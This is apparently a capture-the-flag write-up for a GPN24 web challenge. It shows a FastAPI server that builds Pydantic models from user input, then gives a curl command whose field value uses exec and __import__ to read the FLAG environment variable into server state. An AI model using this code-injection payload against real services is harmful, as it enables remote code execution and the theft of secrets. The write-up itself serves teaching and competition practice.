


### Check file source

```python
@app.get("/blueprint/{name}")
def get_blueprint(name: str):
    blueprint = blueprints.get(name)
    if blueprint is None:
        return None
    return blueprint.model_json_schema()

@app.post("/blueprint/{name}")
def register_blueprint(name: str, description: Dict[str,str] = Body()):
    if name in blueprints:
        raise HTTPException(status_code=409, detail="We already know that one. But keep looking, I think there are some spoons missing.")

    description = {k: v for k,v in description.items() if not k.startswith("__")}
    Blueprint = create_model(name, **description)
    blueprints[name] = Blueprint

    return "Blueprint successfully registered"

@app.get("/item/{name}")
def get_item(name: str):
    return items.get(name)

@app.post("/item/{name}")
def register_item(name: str, item: str = Body()):
    if name not in blueprints:
        raise HTTPException(status_code=400, detail="That looks interesting but we don't know what it is. Are you sure it belongs in a kitchen?")
    try:
        items[name] = blueprints[name].model_validate_json(item, strict=True)
    except:
        raise HTTPException(status_code=409, detail="Are you sure you followed the blueprint exactly?")
    return "Item successfully registered"
```

### Analysis

The server stores data in 2 global variables:

```python
blueprints = {}
items = {}
```

The `/blueprint/{name}` endpoint lets the user send JSON to dynamically create a Pydantic model via `create_model()`:

```python
Blueprint = create_model(name, **description)
```

Before creating the model, the server only filters fields whose key starts with `__`:

```python
description = {k: v for k,v in description.items() if not k.startswith("__")}
```

We see the server only checks the **key**, but does not check the **value**.

So we can abuse the value to execute a Python expression. The goal is to read the `FLAG` environment variable, then write the flag into the global variable `items` so we can retrieve it via the endpoint:

```http
GET /item/flag
```

### Payload idea:

```python
items['flag'] = os.environ['FLAG']
```

Since the expression needs to return a valid type for the field, we use a tuple expression:

```python
(__import__('builtins').exec("items['flag']=__import__('os').environ['FLAG']"), str)[1]
```

### Exploitation

```bash
BASE='https://boiled-tofu-with-minced-aioli-zlg3.gpn24.ctf.kitctf.de'

curl -s -X POST "$BASE/blueprint/hai" \
  -H 'Content-Type: application/json' \
  --data '{"x":"(__import__('"'"'builtins'"'"').exec(\"items['"'"'flag'"'"']=__import__('"'"'os'"'"').environ['"'"'FLAG'"'"']\"), str)[1]"}'
```

The server returns:

```text
"Blueprint successfully registered"
```

At this point the payload has been executed and the flag has been written into `items['flag']`.

Read the flag via the `/item/flag` endpoint:



### Flag

```text
"GPNCTF{and_one_0R_7w0_rces_lAt3r_7hEy_8UIl7_hAPPily_evEr_aFtEr}"
```
